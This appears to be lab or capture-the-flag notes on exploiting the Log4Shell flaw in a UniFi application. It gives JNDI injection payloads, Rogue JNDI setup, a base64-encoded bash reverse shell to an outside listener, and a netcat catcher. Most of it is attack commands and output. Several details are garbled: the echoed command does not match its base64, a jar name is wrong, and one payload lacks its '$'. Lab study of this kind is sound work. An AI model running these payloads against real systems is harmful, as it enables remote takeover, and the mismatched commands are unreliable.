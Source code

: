 # Log4Shell

[About the vuln](https://www.hackthebox.com/blog/Whats-Going-On-With-Log4j-Exploitation)

[Using the vuln to attack a vulnerable Unify Networks application](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi)

## Test for the vuln

Run a tcp dump on the ldap port on our host

```bash
sudo tcpdump -i tun0 port 389
```

and send the following payload

```json
{
    "username":"ababababab",
    "password":"dgdgdgdgd",
    "remember":"{jndi:ldap://10.10.14.153/bleurgh}",
    "strict":true
}
```

If successful, should see e.g.

```bash
cpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
16:32:26.527449 IP unified.htb.37928 > 10.10.14.153.ldap: Flags [S], seq 271015978, win 64240, options [mss 1337,sackOK,TS val 3400314648 ecr 0,nop,wscale 7], length 0
16:32:26.527464 IP 10.10.14.153.ldap > unified.htb.37928: Flags [R.], seq 0, ack 271015979, win 0, length 0
```

## Attacking with Rogue JNDI

[Rogue JNDI](https://github.com/veracode-research/rogue-jndi)

Build and run the Rogue JNDI webserver

```bash
# requires java 11+ (I've only tested w/ 17)
~$ git clone https://github.com/veracode-research/rogue-jndi
~$ cd rogue-jndi && mvn package

# where 10.10.14.153 is our own IP
~$ echo 'bash -c bash 10.14.153/8888 0>&1' | base64
YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTUzLzg4ODggMD4mMQo=

~$ sudo java -jar targjar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTUz|{base64,-d}|{bash,-i}" --hostname "10.10.14.153"
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://10.10.14.153:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://10.10.14.153:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://10.10.14.153:1389/o=reference to artsploit.controllers.RemoteRefer
Mapping ldap://10.10.14.153:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://10.10.14.153:1389/o=websphere2,jar=* to artsploit.controllers.WebS
Mapping ldap://10.10.14.153:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://10.10.14.153:1389/o=websphere1,wsdl=* to artsploit.controllers.Web
Mapping ldap://10.10.14.153:1389/o=groovy to artsploit.controllers.Groovy

# start a TCP listener on the port we base64'd above
~$ nc -lvnp 8888
```

Then send e.g. the following payload to the vulnerable endpoint to pop a shell on our netcat tcp listener. Note the o=tomcat, corresponding to the option above.

```json
{
    "username":"ababababab",
    "password":"dgdgdgdgd",
    "remember":"${jndi:ldap://10.10.14.153:1389/o=tomcat}",
    "strict":true
}
```